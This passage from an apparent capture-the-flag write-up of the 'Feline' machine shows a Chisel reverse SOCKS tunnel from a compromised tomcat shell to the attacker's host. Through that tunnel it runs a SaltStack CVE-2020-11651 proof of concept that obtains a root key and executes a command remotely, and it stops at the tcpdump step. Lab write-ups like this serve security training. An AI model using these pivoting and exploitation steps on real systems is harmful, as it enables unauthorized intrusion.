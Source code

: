 Next the client:

    
    
    tomcat@VirusBucket:/var/tmp$ ./chisel_1.6.0_linux_amd64 client 10.10.14.15:8000 R:socks
    2020/09/01 17:03:56 client: Connecting to ws://10.10.14.15:8000
    2020/09/01 17:03:56 client: Fingerprint be:f7:9d:b2:7f:8c:a4:60:51:43:9a:c3:3e:b1:34:fa
    2020/09/01 17:03:56 client: Connected (Latency 11.653786ms)
    

The server shows this connection:

    
    
    2020/09/01 09:20:02 server: proxy#1:R:127.0.0.1:1080=>socks: Listening
    

#### Test Vulnerable

Running the script with no arguments does a check on localhost to see if it’s
vulnerable. I’ll use `proxychains` to tunnel through the Chisel socks proxy.
The proxies in `/etc/proxychains.conf` tell it to use 127.0.0.1:1080 as a
socks5 proxy:

    
    
    [ProxyList]
    socks5  127.0.0.1 1080
    

Now I’ll run the exploit with `proxychains`:

    
    
    root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py
    ProxyChains-3.1 (http://proxychains.sf.net)
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Checking salt-master (127.0.0.1:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651... YES
    [*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=
    

Feline is vulnerable.

#### Ping

Next I tried to get it to ping me by running:

    
    
    root@kali:/opt/CVE-2020-11651-poc# proxychains python3 exploit.py --exec 'ping -c 1 10.10.14.15'
    ProxyChains-3.1 (http://proxychains.sf.net)
    [!] Please only use this script to verify you have correctly patched systems you have permission to access. Hit ^C to abort.
    [+] Checking salt-master (127.0.0.1:4506) status... ONLINE
    [+] Checking if vulnerable to CVE-2020-11651... YES
    [*] root key obtained: HWxqacQWZGow8QrRBTcMKALAYRqsdT2t30kwsV8MBIYk03o/4UV8puHk788hKPT4mPdRg55WyEI=
    [+] Attempting to execute ping -c 1 10.10.14.15 on 127.0.0.1
    [+] Successfully scheduled job: 20200901193401749722
    

At `tcpdump`, I got the ping:
